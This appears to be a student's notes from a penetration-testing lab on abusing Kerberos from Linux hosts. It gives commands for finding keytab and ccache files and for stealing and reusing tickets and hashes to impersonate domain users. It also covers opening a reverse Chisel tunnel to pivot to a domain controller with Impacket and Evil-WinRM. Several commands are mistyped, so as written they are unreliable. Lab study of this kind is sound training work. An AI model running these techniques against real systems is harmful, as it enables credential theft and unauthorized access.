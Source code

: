 # Kerberos on Linux
- Linux stores Kerberos tickets as ccache files in /tmp. 
- By default, the location of the Kerberos ticket is stored in the environmnet variable KRB5CCNAME.
- Keytab file: contains pairs of Kerberos principals and encyrpted keys.

# Scenario
- LINUX01 is connected to Domain Controller, can only be reached by MS01
- Two ways to connect to LINUX01:
    - RDP to MS01, then from MS01 SSH to LINUX01
    - Use portforwarding
    ```shell
    ssh $USER@$DOMAIN@$IP -p 2222
    
    # By connecting to port TCP/2222 on MS01, we will gain access to port TCP/22 on LINUX01
    ```
    
# Identify Linux and Active Directory Integration
### Check if Linux is Domain joined
  - realm
    ```shell
      realm list
    ```
  - PS
    ```shell
      ps -ef | grep -i "windbind\|sssd"
    ```
# Finding Kerberos Tickets in Linux
### Finding Keytab files
- Using Find
```shell
  find / -name *keytab* -ls 2>/dev/null
```
### Identify Keytab Files in Cronjobs
```shell
  crontab -l
```
- Look for **kinit**, which allows interation with Kerberos, and its function si to request the users's TGT and store this ticket in the cache. 
### Finding ccache Files
- Review Environemnet Variables for ccache files
```shell
  env | grep -i krb5
```
### Search for ccache files in /tmp
```shell
  ls -la /tmp
```
# Abusing KeyTab files
### Listing Keytab file information
```shell
  klsit -k -t
```
1. Impersonating a user wiht a keytab
```shell
  klist
  klist $USER@DOMAIN -k -t /opt/specialfiles/$USER.keytab
  klist
```
- Connect to SMB as the user
```shell
  smblcient //$DOMAIN/$USER -k -c ls
```
- NOTE: to keep the ticket from the current session, before importing the keytab, save a copy of the ccache file present in the environment variable KRB5CCNAME

2. Keytab Extract
- Use ![KeyTabExtract](https://github.com/sosdave/KeyTabExtract) to extract valuable information from 502-type .keytab files.
```shell
python3 /opt/keytabextract.py /opt/specialfiles/$USER.keytab
```
- Log in as the user
```shell
  su - $USER@DOMAIN
  klist
```
- Obtain more hashes: we can continue investigate the keytab file found in the cronjob, repeat the process and gain more hashes.

# Abuse Keytab ccache
- Escalte privilege (when possible) to read the ccache files
```shell
  ls -la /tmp
```
- Check the group of the users:
```shell
id $USER@$DOMAIN
```
- To use ccache file, we need to assign the file to the KRB5CCNAME variable
```shell
  cp /tmp/$CCACHEFILE .
  export KRB5CCNAME=/root/$CCACHEFILE
  klist
```

-------------------------------
# Using Linux Attack Tools with Kerberos
-------------------------------
- When using tools from a domain-joined machine, we need to ensure our KRB5CCNAME environment variable is set to the ccache file we want to use. When attacking from a machine that is not a member of domain, we need to use [Chisel](https://github.com/jpillora/chisel) [proxychains](https://github.com/haad/proxychains) and edit the host file.
```shell
cat /etc/hosts
172.16.1.10 inlanefreight.htb   inlanefreight   dc01.inlanefreight.htb  dc01
172.16.1.5  ms01.inlanefreight.htb  ms01
```
- Configure Proxychains file to use socks5 and port 1080
```shell
    cat /etc/proxychains.conf
    socks5 127.0.0.1 1080
```
- Download Chisel to PWNBOX
```shell
    wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
    gzip -d chisel_1.7.7_linux_amd64.gz
    mv chisel_* chisel && chmod +x ./chisel
    sudo ./chisel server --reverse 
```
- RDP to MS01 machine
- Execute chisel from MS01 machine
```shell
    chisel.exe client $PWNBOX_IP:8080 R:socks
```
- Transfer ccache file from LINUX-1 and create environment varialbe KRB5CCNAME with the value corresponding to the path of the ccachfile
```shell
    export KRB5CCNAME=/home/htb-student/$CCACHE_FILE
```

## Impacket
- Use Impacket with proxychains and Kerberos Authentication
```shell
    # PWNBOX
    proxychains impacket-wmiexec ms01 -k
    
    # if prompted for a password, use -no-pass option
 ```
 ## Evil-winrm
 - Must install the package
 ```shell
    # PWNBOX
    sudo apt-get install krb5-user -y
 ```
 - Configure the Keberos file for the Domain
 ```shell
     cat /etc/krb5.conf
     default_realm = INLANEFREIGHT.HTB
     
     [realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.inlanefreight.htb
    }
 ```
 - Using Evil-WinRM with Kerberos
 ```shell
    proxychains evil-winrm -i dc01 -r inlanefreight.htb
 ```

